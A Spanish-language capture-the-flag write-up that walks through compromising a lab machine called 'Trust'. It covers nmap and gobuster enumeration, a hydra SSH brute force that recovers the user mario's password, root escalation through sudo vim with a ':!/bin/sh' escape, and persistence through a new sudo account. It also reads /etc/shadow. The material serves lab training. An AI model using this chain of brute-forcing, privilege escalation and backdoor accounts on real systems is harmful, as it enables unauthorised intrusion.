<p align="center">
    
</p>


Este writeup documenta la explotación de la máquina **Trust**, clasificada como de nivel muy fácil. Aunque sencilla, los creadores suelen incluir pequeños trucos para hacerla más interesante. ¡Vamos a ello!

---

## Reconocimiento inicial


Primero verificamos la conectividad de la máquina con un **ping**, observando un **TTL de 64**, lo que indica que el sistema objetivo utiliza **Linux**.

<p align="center">
    
</p>

---

## Enumeración


#### Escaneo de puertos


Realizamos un escaneo de puertos con **nmap** para identificar los que están abiertos:
```
nmap -p- --open -sS --min-rate 5000 -n -Pn 172.18.0.2
```

<p align="center">
    
</p>


Encontramos los puertos **22** (SSH) y **80** (HTTP) abiertos. Luego, profundizamos con un escaneo más exhaustivo:
```
nmap -p 22,80 -sVC --min-rate 5000 -n -Pn 172.18.0.2
```

<p align="center">
    
</p>

El puerto **80** está asociado a un servidor web Apache, lo que podría ser vulnerable. Vamos a inspeccionarlo.

---

### Análisis del servidor web


Al acceder al servidor web y revisar el código fuente, no encontramos nada relevante.
<p align="center">
    
</p>


Para explorar más, usamos **gobuster** en busca de directorios y archivos:
```
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x php,cgi,txt
```
<p align="center">
    
</p>

Gobuster encuentra el archivo **secret.php**, que inspeccionamos. El archivo muestra un mensaje indicando que la web no puede ser hackeada y menciona un posible usuario: **mario**.
<p align="center">
    
</p>

---

## Explotación


Con el puerto **22** abierto y el usuario **mario**, intentamos una fuerza bruta al protocolo **SSH** usando **hydra**:
```
hydra -l mario -P /usr/share//wordlists/rockyou.txt ssh://172.18.0.2
```
<p align="center">
    
</p>

Obtenemos las credenciales:

- **Usuario:** mario
- **Contraseña:** chocolate


Probamos las credenciales con **ssh**:
```
ssh mario@172.18.0.2
```
<p align="center">
    
</p>

Accedemos con éxito a la máquina.

---

## Post-explotación


Verificamos el usuario con el que hemos ingresado:
```
whoami
```
<p align="center">
    
</p>


#### Escalada de privilegios

Comprobamos si podemos ejecutar comandos como **root** con **sudo**:
```
sudo -l
```
<p align="center">
    
</p>

El binario **/usr/bin/vim** puede ejecutarse como root. Con la ayuda de la web **GTFObins**, podemos escalar privilegios ejecutando:
```
sudo /usr/bin/vim
```

Dentro de vim, usamos el comando `:!/bin/sh` para obtener una shell como root.
<p align="center">
    
</p>


Ejecutamos el programa
```
sudo /usr/bin/vim
```
<p align="center">
    
</p>


Una vez dentro tenemos que teclear `:!/bin/sh`
<p align="center">
    
</p>


Al darle `ENTER`, recibimos el siguiente `prompt`
<p align="center">
    
</p>


Comprobamos que usuario somos, si hemos escalado privilegios

<p align="center">
    
</p>


Somo el usuario `root`. Para tener mas comodidad vamos a obtener una shell mas completa
```
/bin/bash -i
```

<p align="center">
    
</p>


---

### Persistencia

Para mantener el acceso, creamos un nuevo usuario llamado **jonay** y lo añadimos al grupo **sudo**:

1. Crear usuario y asignar contraseña: 
```
useradd -m -s /bin/bash jonay
passwd jonay
```

<p align="center">
    
</p>
   
    
2. Añadirlo al grupo **sudo**:
```
usermod -aG sudo jonay 
```

<p align="center">
    
</p>
		
3. Verificar la creación:
```
cat /etc/shadow
```

<p align="center">
    
</p>
    

Probamos el acceso con **ssh**:
```
ssh jonay@172.18.0.2
```
<p align="center">
    
</p>

Verificamos si podemos escalar privilegios. Según **sudo -l**, podemos ejecutar cualquier binario como root. Probamos con:
```
sudo -l
```
<p align="center">
    
</p>

Gracias a esta configuración, tenemos acceso persistente con privilegios de root.

---

## Conclusión

La máquina **Trust** nos permitió practicar:

1. Reconocimiento con herramientas como **nmap** y **gobuster**.
2. Fuerza bruta con **hydra**.
3. Escalada de privilegios utilizando **vim** y **GTFObins**.
4. Configuración de persistencia creando un nuevo usuario con acceso privilegiado.

